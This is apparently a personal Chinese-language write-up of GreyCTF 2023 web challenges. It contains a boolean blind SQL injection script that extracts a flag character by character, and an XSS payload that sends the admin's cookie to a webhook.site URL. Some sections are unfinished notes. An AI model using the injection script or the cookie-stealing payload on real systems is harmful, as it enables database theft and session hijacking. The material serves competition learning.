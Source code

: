 
# web
### FETUS WEB
签到,直接搜索flag有两段,一拼接就可以
### 100 QUESTIOM
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230520230422.png)

```python
    db = sqlite3.connect("database.db")
    cursor = db.execute(f"SELECT Question FROM QNA WHERE ID = {qn_id}")
    qn = cursor.fetchone()[0]

    # check answer
    cursor = db.execute(f"SELECT * FROM QNA WHERE ID = {qn_id} AND Answer = '{ans}'")
    result = cursor.fetchall()
    correct = True if result != [] else False

```
由于是sqlite3,使用[网站](https://inloop.github.io/sqlite-viewer/)读取database.db文件
存在明显的布尔盲注
```python
import requests
import string


#flag=['{', '1', '_', 'c', '4', 'N', '7', '_', '5', '3', '3', '}', '#']
print(''.join(flag))
url="http://34.126.139.50:10513/?qn_id=100&ans=grsda' or substr((select Answer from qna where id=42),{0},1)='{1}'-- "
flag=[]
for i in range(5,18):
    for j in string.printable:
        result=requests.get(url.format(i,j))
        print(url.format(i,j))
        if "Correct" in result.text:
            flag.append(j)
            print(flag)
            break
```

### BaBy WEB
```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "GET":
        return render_template('index.html')
    
    message = request.form.get('message')
    if len(message) == 0:
        flash("Please enter a message") 
        return render_template('index.html')

    link = f"/ticket?message={quote(message)}"

    # Admin vists the link here
    visit(BASE_URL, f"{BASE_URL}{link}")

    return redirect(link)
```


感觉我的xss没问题啊
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230520233853.png)

p

---
```js
<script>document.location='https://webhook.site/(some_id)?cookie='+document.cookie;</script>
```
### Login Bot


![[greyctf 2023 2023-05-21 01.27.42.excalidraw]]
不会啊

---

1. send_post将webhook的url传进url列表,返回一个url序号
```python
resp = s.post(f'{BASE_URL}/send_post', data={    
	'title': 'test',
	'content': WEBHOOK_URL
})
```
2. send_post来访问这个置信url
```python
resp = s.post(f'{BASE_URL}/send_post', data={    
	'url': f'/url/{url_id}',
	'title': 'test',
	'content': WEBHOOK_URL
})
```

还是代码逻辑没看懂啊
# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-20   22:34